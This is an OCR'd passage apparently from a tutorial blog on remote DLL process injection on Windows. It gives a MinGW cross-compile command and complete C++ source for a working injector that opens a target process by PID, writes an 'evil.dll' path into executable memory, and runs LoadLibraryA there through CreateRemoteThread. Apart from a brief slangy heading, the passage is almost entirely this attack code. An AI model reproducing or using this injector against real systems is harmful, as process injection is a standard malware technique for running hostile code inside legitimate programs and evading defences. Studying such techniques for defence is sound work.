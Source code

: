 ```  
x86_64-w64-mingw32-gcc -O2 example-2.cpp -o example-2.exe -mconsole -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```  

![](/go-remote-dll-process-injection/example-2-error.png)  

## WHut?!!

**hey, They did it againz! Its OK, Timmys gotchu, bruv...**  

```cpp  
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  FARPROC lb = GetProcAddress(hKernel32, "LoadLibraryA");
  VOID* lbVoid = reinterpret_cast<VOID*>(lb);  // Cast FARPROC to void pointer

  // parse process ID
  if (atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lbVoid, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```  
